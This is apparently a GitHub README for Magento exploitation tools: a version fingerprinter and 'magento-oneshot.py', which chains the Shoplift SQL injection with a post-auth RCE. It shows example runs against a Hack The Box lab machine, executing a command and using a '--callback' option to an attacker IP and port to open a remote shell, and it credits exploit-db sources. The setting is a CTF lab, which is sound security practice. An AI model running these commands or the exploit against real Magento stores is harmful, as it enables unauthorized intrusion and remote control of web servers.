 # get-version.sh

Determines version of Magento by comparing hash of target's `styles.css` with each tagged release's `styles.css`.

# magento-oneshot.py

## Tested on:
    Magento 1.9.0.0
    Linux 4.4.0-146-generic #172-Ubuntu SMP 2019 x86_64 GNU/Linux
    Python 3.7.4
    requests 2.20.0
    lxml 4.3.3
   
## Example run on HTB's Swagshop:

`python3 magento-oneshot.py http://10.10.10.140/index.php --history-length 1y --command id`
`python3 magento-oneshot.py http://10.10.10.140/index.php --history-length 1y --callback 10.10.14.19:12345`

## Credits:

This script uses logic from the two exploits below for a more seamless Magento exploitation experience.

### Magento Shoplift exploit (SUPEE-5344)
    https://www.exploit-db.com/exploits/37977
    Author        : Manish Kishan Tanwar AKA error1046
    Date          : 25/08/2015
    Debugged At  : Indishell Lab(originally developed by joren)

### Magento CE < 1.9.0.1 Post Auth RCE
    https://www.exploit-db.com/exploits/37811
    Date: 08/18/2015
    Exploit Author: @Ebrietas0 || http://ebrietas0.blogspot.com
